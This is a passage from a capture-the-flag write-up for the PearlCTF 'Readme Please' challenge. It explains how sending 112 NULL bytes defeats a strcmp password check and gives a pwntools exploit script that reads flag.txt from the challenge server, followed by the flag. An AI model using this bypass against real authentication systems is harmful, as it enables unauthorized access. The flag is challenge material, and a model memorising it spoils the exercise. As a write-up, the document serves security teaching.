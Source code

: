 - How we can bypass the condition? Since it was using the `strcmp` function, so we can send some `\x00` (**NULL Byte**) characters in the input password prompt.
- But, how long the `\x00` characters that we need? It's only `**112**` **Bytes** (**0x70**) until our input is reach the max of array length.
- So, here's my exploit script.

```python=
#!/usr/bin/env python3

from pwn import *
import itertools

context.binary = elf = ELF("./main", checksec=0)
context.log_level = "DEBUG"

is_remote = True

if is_remote:
    io = remote("readme-please.ctf.pearlctf.in", 30039)
else:
    io = elf.process()

# Send first request to read the flag.txt file.
io.sendlineafter(b"Enter the file name: ", b"files/flag.txt")

# Abuse the string comparison with \x00 characters.
io.sendlineafter(b"Enter password: ", b"\x00"*0x70) # 112 Bytes.

print(io.recvall(timeout=1))

# Close the remote connection.
io.close()
```

![Readme Please-02](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2025/_assets/pearl-ctf_pwn2-02.png)

### Flag

<kbd>pearl{f1l3_d3script0rs_4r3_c00l}</kbd>
